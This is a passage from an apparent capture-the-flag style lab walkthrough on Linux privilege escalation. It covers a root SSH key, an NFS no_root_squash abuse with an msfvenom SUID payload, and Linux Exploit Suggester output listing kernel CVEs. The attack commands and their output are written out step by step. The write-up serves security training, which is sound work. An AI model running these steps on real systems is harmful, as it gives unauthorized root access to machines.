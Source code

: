 The private key can be saved locally, and can be used to spawn `privilege shell`.
{% capture code %}{% raw %}ssh -i rootkey.txt root@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 19 - NFS

`NFS` exports should have `root squashing` enabled, so if remote user is `root`, it will be translated to `nobody` or `nfsnobody` locally.

Check if there are any `nfs` shares exported and if `root squash` is disabled, which can be exploited. This can be checked using `cat /etc/exports`.
{% capture code %}{% raw %}/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check){% endraw %}{% endcapture %} {% include code.html code=code %}

In the source machine, sudo to root, and mount the `nfs` share.
{% capture code %}{% raw %}mount -o rw,vers=2 <target-ip>:/tmp /tmp/nfs{% endraw %}{% endcapture %} {% include code.html code=code %}

Using `msfvenom, create a `reverse shell` payload.
{% capture code %}{% raw %}msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: /tmp/nfs/shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}

Make the binary executable and set `suid` flag.
{% capture code %}{% raw %}chmod +xs /tmp/nfs/shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}

In the remote machine, execute the binary `/tmp/shell.elf` to spawn a `privilge shell`.


## Task 20 - Kernel Exploits

Use these links as references.
- [Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester){:target="_blank"}


Execute the script using `perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`. The output will be similar to
{% capture code %}{% raw %}  Linux Exploit Suggester 2

Local Kernel: 2.6.32
Searching 72 exploits...

Possible Exploits
[1] american-sign-language
    CVE-2010-4347
    Source: http://www.securityfocus.com/bid/45408
[2] can_bcm
    CVE-2010-2959
    Source: http://www.exploit-db.com/exploits/14814
[3] dirty_cow
    CVE-2016-5195
    Source: http://www.exploit-db.com/exploits/40616
[4] exploit_x
    CVE-2018-14665
    Source: http://www.exploit-db.com/exploits/45697
[5] half_nelson1
    Alt: econet       CVE-2010-3848
    Source: http://www.exploit-db.com/exploits/17787